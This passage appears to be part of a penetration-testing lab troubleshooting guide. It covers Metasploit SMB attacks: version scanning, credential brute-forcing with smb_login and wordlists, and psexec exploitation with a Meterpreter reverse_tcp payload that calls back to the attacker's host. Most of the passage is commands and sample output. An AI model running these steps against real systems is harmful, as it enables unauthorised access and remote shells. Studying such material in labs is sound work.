 ```bash
# Step 4: Check target accessibility
use auxiliary/scanner/smb/smb_version
set RHOSTS target_ip
exploit
# Verify SMB service is accessible
```

**Solutions:**
- Check wordlist file paths and permissions before starting attack
- Try multiple wordlist combinations including custom lists
- Verify target SMB service is accessible and responding
- Consider target may have account lockout policies in place

---

### **❌ Problem 2: PSExec Module Fails to Execute**
**What You See:**
```bash
[*] 10.0.16.162:445 - Connecting to the server...
[*] 10.0.16.162:445 - Authenticating to 10.0.16.162:445 as user 'Administrator'...
[-] 10.0.16.162:445 - Exploit failed: Login Incorrect
```

**How to Fix:**
```bash
# Step 1: Verify credentials are correct
use auxiliary/scanner/smb/smb_login
set RHOSTS target_ip
set SMBUser Administrator
set SMBPass suspected_password
exploit
# Confirm credentials work before psexec

# Step 2: Check user has administrative privileges
# Look for "Administrator" tag in smb_login output
# Example: [*] Success: '.\administrator:password' Administrator

# Step 3: Try different payload options
set payload windows/meterpreter/reverse_tcp
set LHOST your_local_ip
set LPORT 4444

# Step 4: Check for case sensitivity
set SMBUser administrator  # Try lowercase
set SMBUser ADMINISTRATOR  # Try uppercase
```

**Solutions:**
- Always verify credentials with smb_login before attempting psexec
- Ensure user account has administrative privileges (look for Administrator tag)
- Check LHOST setting points to correct attacking machine IP
- Consider case sensitivity in usernames and passwords

---